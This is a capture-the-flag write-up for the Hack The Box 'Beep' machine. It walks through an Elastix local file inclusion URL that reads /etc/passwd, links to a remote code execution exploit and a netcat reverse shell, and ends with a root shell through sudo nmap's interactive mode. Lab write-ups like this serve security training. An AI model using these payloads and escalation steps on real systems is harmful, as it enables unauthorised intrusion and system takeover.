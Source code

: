 # Beep
> URL : https://app.hackthebox.eu/machines/Beep

IP : 10.129.1.226

## Recon
- 80 port is a login page
	- Elastix
![](https://i.imgur.com/4GmV8sk.png)

## Find Payload
### LFI
- Elastix 2.2.0 - 'graph.php' Local File Inclusion
	- https://www.exploit-db.com/exploits/37637
- Try LFI
	- https://10.129.1.226/vtigercrm/graph.php?current_language=../../../../../../../etc/passwd%00&module=Accounts&action
	- ![](https://i.imgur.com/pgsp4Xx.png)
- With python request script, it will throw a exception, because the ssl version is toooo ol.
	- https://stackoverflow.com/questions/32330919/python-ssl-ssl-sslerror-ssl-unsupported-protocol-unsupported-protocol-ssl
	- Use this command to change the min version of TLS
		- `sed -i 's/MinProtocol = TLSv1.2/MinProtocol = TLSv1.0/' /etc/ssl/openssl.cnf`
		- ![](https://i.imgur.com/2GDgN7e.png)
### RCE
- Find RCE Code
	- https://github.com/infosecjunky/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution/blob/master/exploit.py
- Turn nc to receive reverse shell
	- ![](https://i.imgur.com/5RWwCTM.png)
## Privilege Escalation
- `sudo -l` check , we can sudo `nmap`
	- ![](https://i.imgur.com/vhDoZgm.png)
- `sudo nmap --interactive`
	- https://gtfobins.github.io/gtfobins/nmap/
	- `!bash`
	- ![](https://i.imgur.com/pyCp1rO.png)
